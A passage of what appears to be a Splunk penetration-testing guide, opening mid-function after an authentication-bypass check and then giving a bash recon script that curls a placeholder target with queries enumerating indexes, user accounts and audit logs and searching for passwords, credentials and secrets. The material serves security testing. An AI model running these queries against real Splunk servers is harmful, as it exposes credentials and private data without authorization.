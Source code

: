 ```bash
        echo "[!] CRITICAL: Splunk Free license detected - no authentication required!"
    fi
}

# auth_bypass_testing "http://target.com:8000"
```

---

## Data and Configuration Analysis

### Search Interface Reconnaissance

#### Data Discovery Through Search
```bash
# Search capability testing and data discovery
search_reconnaissance() {
    local base_url=$1
    
    echo "[+] Conducting search-based reconnaissance:"
    
    # Basic searches to understand data scope
    search_queries=(
        "index=* | head 10"                    # Basic data sampling
        "| rest /services/server/info"         # Server information
        "| rest /services/data/indexes"        # Available indexes
        "| rest /services/authentication/users" # User accounts
        "index=_audit | head 20"               # Audit trail
        "index=_internal | head 20"            # Internal Splunk logs
        "eventtype=authentication"             # Authentication events
        "sourcetype=*windows* | head 10"       # Windows data
        "sourcetype=*linux* | head 10"         # Linux data
        "password OR credential OR secret"     # Sensitive data
    )
    
    for query in "${search_queries[@]}"; do
        echo "[+] Testing search: $query"
        
        # URL encode the search query
        encoded_query=$(echo "$query" | sed 's/ /%20/g' | sed 's/|/%7C/g')
        search_url="$base_url/en-US/app/search/search?q=$encoded_query"
        
        response=$(curl -s -b cookies.txt -o /dev/null -w "%{http_code}" "$search_url")
        
        case $response in
            200)
                echo "  [+] Search executed successfully"
                ;;
            401|403)
                echo "  [-] Search requires authentication"
                ;;
            *)
                echo "  [?] Unexpected response: HTTP $response"
                ;;
        esac
    done
}

# search_reconnaissance "http://target.com:8000"
```
